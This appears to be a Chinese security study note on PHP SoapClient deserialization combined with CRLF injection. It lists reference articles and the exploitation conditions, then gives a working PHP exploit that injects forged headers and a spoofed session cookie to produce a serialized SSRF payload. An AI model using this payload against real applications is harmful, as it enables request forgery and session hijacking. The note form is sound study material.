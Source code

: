 # Soap和CRLF攻击

## 参考文章

- https://www.anquanke.com/post/id/153065#h2-5
- https://xz.aliyun.com/t/2148#toc-0
- https://segmentfault.com/a/1190000003791120
- http://blog.securelayer7.net/owasp-top-10-penetration-testing-soap-application-mitigation/

## 简介

### 函数构造

```php
public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )
```

>  **options**
>
> An array of options. If working in WSDL mode, this parameter is optional. If working in non-WSDL mode, the *location* and *uri* options must be set, where *location* is the URL of the SOAP server to send the **request to**, and *uri* is the target namespace of the SOAP service.

## CRLF攻击

### 利用条件

- 需要进行反序列化
- 调用一个方法，且该方法不存在。以此激活__call()

### 利用范围

- (PHP 5, PHP 7)

### Exp

```php
<?php
$target = "http://xxx.xxx.xxx.xxx:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
$aa=unserialize($aaa);
$aa->test();
```

![](../images/19-7-13_PHP_Soap和CRLF攻击_CRLF攻击_1.png)